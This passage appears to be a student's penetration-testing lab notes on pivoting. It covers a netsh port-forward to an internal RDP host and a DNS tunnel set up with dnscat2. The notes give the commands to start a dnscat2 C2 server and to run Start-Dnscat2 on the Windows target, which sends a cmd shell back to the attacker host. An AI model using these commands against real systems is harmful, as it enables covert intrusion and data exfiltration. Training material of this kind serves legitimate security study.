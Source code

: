 ### **Verifying Port Forward**

```
C:\Windows\system32> netsh.exe interface portproxy show v4tov4

Listen on ipv4:             Connect to ipv4:

Address         Port        Address         Port
--------------- ----------  --------------- ----------
10.129.42.198   8080        172.16.5.25     3389
```

After configuring the `portproxy` on our Windows-based pivot host, we will try to connect to the 8080 port of this host from our attack host using xfreerdp. Once a request is sent from our attack host, the Windows host will route our traffic according to the proxy settings configured by netsh.exe.

![Untitled](Untitled%205.png)

in xfreerdp we are specifying pivot machine ip and port at which pivot machine is listening.

# **Branching Out Our Tunnels**

## **DNS Tunneling with Dnscat2**

[Dnscat2](https://github.com/iagox86/dnscat2) is a tunneling tool that uses DNS protocol to send data between two hosts.
It uses an encrypted `Command-&-Control` (`C&C` or `C2`) channel and sends data inside TXT records within the DNS protocol 

- `sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache` → starting dnscat2 server
    
    ip is of kali linux
    
    This will generate secret key which we will have to provide to our dnscat2 client on the windows host so that it can authenticate and encrypt the data that is sent to our external dnscat2 server.
    
    ### **Cloning dnscat2-powershell to the Attack Host**
    
    - `git clone https://github.com/lukebaggett/dnscat2-powershell.git`
    
    Once the `dnscat2.ps1` file is on the target we can import it and run associated cmd-lets.
    
    ### **Importing dnscat2.ps1**
    
    - `PS C:\htb> Import-Module .\dnscat2.ps1`

Then lets establish a tunnel with the server running on our attack host. We can send back a CMD shell session to our server.

```powershell
PS C:\htb> Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd

```
